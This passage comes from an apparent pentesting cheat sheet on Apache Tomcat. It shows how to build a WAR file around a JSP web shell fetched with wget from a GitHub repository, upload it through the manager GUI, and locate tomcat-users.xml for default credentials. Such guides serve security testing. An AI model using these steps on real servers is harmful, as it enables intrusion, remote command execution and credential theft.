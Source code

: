 ```bash
mkdir webshell
cp index.jsp webshell
cd webshell
jar -cvf ../webshell.war *
webshell.war is created
# Upload it
```

You could also install this (allows upload, download and command execution): [http://vonloesch.de/filebrowser.html](http://vonloesch.de/filebrowser.html)

### Manual Method 2

Get a JSP web shell such as [this](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp) and create a WAR file:

```bash
wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
zip -r backup.war cmd.jsp
# When this file is uploaded to the manager GUI, the /backup application will be added to the table.
# Go to: http://tomcat-site.local:8180/backup/cmd.jsp
```

## POST

Name of Tomcat credentials file is `tomcat-users.xml` and this file indicates the role of the user inside tomcat.

```bash
find / -name tomcat-users.xml 2>/dev/null
```

Example:

```xml
[...]
<!--
  By default, no user is included in the "manager-gui" role required
  to operate the "/manager/html" web application.  If you wish to use this app,
  you must define such a user - the username and password are arbitrary.

  Built-in Tomcat manager roles:
    - manager-gui    - allows access to the HTML GUI and the status pages
    - manager-script - allows access to the HTTP API and the status pages
    - manager-jmx    - allows access to the JMX proxy and the status pages
    - manager-status - allows access to the status pages only
-->
[...]
<role rolename="manager-gui" />
<user username="tomcat" password="tomcat" roles="manager-gui" />
<role rolename="admin-gui" />
<user username="admin" password="admin" roles="manager-gui,admin-gui" />
```
